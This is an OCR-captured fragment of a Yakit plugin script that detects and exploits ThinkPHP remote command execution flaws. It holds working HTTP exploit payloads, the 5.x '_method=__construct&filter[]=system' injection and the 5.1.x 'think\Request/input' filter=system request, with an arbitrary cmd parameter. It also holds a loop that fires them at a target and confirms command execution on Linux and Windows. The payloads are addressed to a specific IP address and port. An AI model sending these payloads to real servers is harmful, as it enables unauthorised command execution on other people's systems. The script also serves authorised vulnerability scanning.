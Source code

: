 ```Go
Content-Type: application/x-www-form-urlencoded
Origin: http://123.58.236.76:59844
Pragma: no-cache
Referer: http://123.58.236.76:59844/index.php?s=index/index/index
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36

s={{url({{params(cmd)}})}}&_method=__construct&filter%5B%5D=system

`},{
        "name":"5.1.x命令执行",
        "payload":`GET /index.php?s=index/\think\Request/input&filter=system&data={{url({{params(cmd)}})}} HTTP/1.1
Host: {{params(target)}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36

`}]

thinkphpFingers = ["X-Powered-By: .*((?i)thinkphp).*"]

testExp = fn(rootUrl){
    yakit_output(sprintf("%s发现thinkphp框架",rootUrl))
    host,port,_ = str.ParseStringToHostPort(rootUrl)
    target = sprintf("%s:%d",host,port)
    for _,payload = range payloads{
        out = ""
        payloadR = ""
        randomStr = str.RandStr(20)
        result = codec.Md5(randomStr)
        cmd = sprintf("echo -n '%v' | md5sum", randomStr)
        rsp,req,_ = poc.HTTP(payload["payload"], poc.params({"cmd": cmd,"target": target}))
        headers, body = str.SplitHTTPHeadersAndBodyFromPacket(rsp)
        // println(string(headers))
        if str.MatchAllOfSubString(body, result){
            payloadR,_ = str.SplitHTTPHeadersAndBodyFromPacket(req)
            out = sprintf("%s存在漏洞, pocName:%s, OS: Linux",rootUrl,payload["name"])
        }

        rsp,req,_ = poc.HTTP(payload["payload"], poc.params({"cmd": "dir C:\\Windows\\","target": target}))
        headers, body = str.SplitHTTPHeadersAndBodyFromPacket(rsp)
        // println(string(headers))
        if str.MatchAllOfSubString(body, "system.ini"){
            payloadR,_ = str.SplitHTTPHeadersAndBodyFromPacket(req)
            out = sprintf("%s存在漏洞, pocName:%s, OS: Windows",rootUrl,payload["name"])
        }
        if out != ""{
            yakit_output(out)
            risk.NewRisk(rootUrl,risk.title(sprintf("%s存在RCE漏洞",rootUrl)),risk.details(out),risk.type("RCE"),risk.payload(payloadR))
        }
    }
}
```